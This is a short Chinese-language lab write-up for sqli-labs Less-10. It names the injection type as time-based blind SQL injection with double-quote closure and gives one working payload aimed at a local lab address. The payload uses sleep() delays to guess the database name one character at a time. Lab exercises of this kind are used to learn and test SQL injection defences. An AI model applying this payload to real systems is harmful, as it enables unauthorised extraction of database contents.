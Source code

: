 ![](file/image_bC0MpfzVw3.png)

### Less-10：GET - Blind - Time based - double quotes

**注入类型**

时间盲注

**闭合方式**

id="\$id"

```sql
http://192.168.65.128/sqli-labs/less-10/?id=1" 
and if(substr(database(),1,1)='s',sleep(5),1) --+
```
